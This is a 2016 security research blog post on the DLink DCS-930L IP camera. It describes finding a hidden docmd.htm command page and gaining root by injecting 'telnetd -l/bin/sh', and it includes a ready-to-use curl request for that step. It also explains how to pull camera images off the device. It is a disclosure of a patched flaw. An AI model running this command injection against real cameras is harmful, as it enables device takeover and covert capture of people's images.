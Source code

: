 --
layout: posts
title:  "DLink DCS 930L"
date:   2016-04-25 00:00:00 -0600
categories: security dlink ip-camera exploit
author: Nicholas Starke
---

In late 2015, I decided to start researching IP Cameras.  I decided to try out the cheapest models available on Amazon.com, both because I thought those models would be more “fruitful” and because I was trying to do this research on a budget.  It turns out that the security on these lower model IP Cameras is really bad.

I looked at five different IP Cameras and was able to gain root access on four of them within a few hours of starting to poke at them.  All of the cameras I looked at cost between $30-$70, and can be purchased directly from Amazon.com.

My goals in completing this research were two-fold:
1. Gain root access on the camera
2. Find a way to exfiltrate camera stills or video off the camera

On all four of the cameras I rooted, I was able to exfiltrate image data off of the device.

Today we’re going to look at one of the models I was able to gain root access on.  I chose this model because a subsequent patch fixed the vulnerability that allowed me to gain root access.

I started by running nmap to check the available ports.  Nothing too interesting there.

```
 Nmap scan report for 192.168.1.13
 Host is up (0.0026s latency).
 Not shown: 65532 closed ports
 PORT     STATE SERVICE
 80/tcp   open  http
 443/tcp  open  https
 8750/tcp open  unknown
 ```

This camera has pretty extensive web administration capabilities, including the ability to upload vendor supplied patches to update the device.  However, the version we will be looking at today is the version that comes installed on the device when you open the box: version 2.01.  The default credentials, which come printed in the documentation with the device, are `admin:admin`. The vulnerability I exploit below is patched in version 2.12 and above, which is available from the DLink website. 

My first try involved checking the various HTML inputs.  This turned up a couple of not very interesting cross site scripting vulnerabilities that would be hard to exploit in the wild.

## Wfuzz

My second try began with running wfuzz with the `directory-list-2.3-medium.txt` word list that comes with every default Kali Linux installation.  For those of you not familiar with wfuzz, it is a tool like dirbuster that facilitates directory enumeration on web servers that do not allow directory indexing.  Running wfuzz turned up a lot of html documents that I was already aware of, plus a few more that seemed useless - and then one that turned out to be the beginning of the jackpot: html.htm.

## Html.htm

Load html.htm in a browser and the HTML document will contain a list of all the webpages available in the web root.  It is more or less a directory index listing.  I navigated through each one of the pages until I found the next stage of the jackpot: docmd.htm!

## Docmd.htm and Telnet Injection

Docmd.htm contains a text box and a submit button.  This form allows direct command execution on the device.  So what’s the next logical step?

`telnetd -l/bin/sh`

A curl command capable of accomplishing this would look like:

`curl 'http://$CAMERA_IP/setSystemCommand' -H 'Authorization: Basic $BASICAUTH_CREDS' -H 'Content-Type: application/x-www-form-urlencoded' --data 'ReplySuccessPage=docmd.htm&ReplyErrorPage=docmd.htm&SystemCommand=telnetd&ConfigSystemCommand=Save'`

Fire up telnet or netcat and connect to port 23 of the camera.  Root shell accomplished!

## Image Exfiltration

While the root shell was not too difficult to load up, it took significantly longer to figure out how to capture image data.  I started by documenting all the binaries available in the PATH and elsewhere on the filesystem, and then working my way through each to see what they did:

```bash
 # ls /bin
 chmod          htmlunpack     sounddb        imagetp        ated           umount         ps             swing
 busybox        nvram_daemon   mknod          mail           kill           uvc_stream     rm             alphapd
 nvram_set      ash            openssl        ping           ralink_init    msmtp          i2c            gpio
 ls             pcmcmd         echo           notifystream   switch         mDNSResponder  lanconfig
 touch          sed            pppoecd        reg            audiopush      cp             mkdir
 upgradefw      mount          login          lld2d          iperf          mydlinkevent   ipush
 ntpclient      iwpriv         sleep          pwd            sh             nvram_get      cat
 grep           inadyn         date           schedule       mii_mgr        mtd_write      ov7740
 # ls /sbin
 automount_boot.sh    config-udhcpd.sh     udhcpc               reboot               udev                 config-igmpproxy.sh
 snort.sh             zcip                 cpubusy.sh           ucp                  wlan.sh              pppoe.sh
 ddns.sh              udhcpc.sh            acodec               route                poweroff
 internet.sh          ntp.sh               vpn-passthru.sh      web.sh               snmp.sh
 video.sh             config-dns.sh        config-pppoe.sh      arp                  dhcp.sh
 config-iTunes.sh     chpasswd.sh          halt                 ifconfig             automount.sh
 zcip.sh              init                 lan.sh               mdev                 cameraname.sh
 # ls /usr/bin
 killall      free         expr         test         ftpd         arping       printf
 [            [[           uptime       ftpputimage  top          tr
 # ls /usr/sbin
 chpasswd  inetd     brctl     telnetd
```

I eventually came across the `mail` command, which allowed me to write a `mail` message to `/tmp/mail.txt`.  Inside that file is the base64 encoded image data from the moment the “mail” command was run. Copy that data into a tmux buffer, write it to your local filesystem and base64 decode that raw data for an image file!

I also created a Metasploit module for this vulnerability: [https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution](https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution)

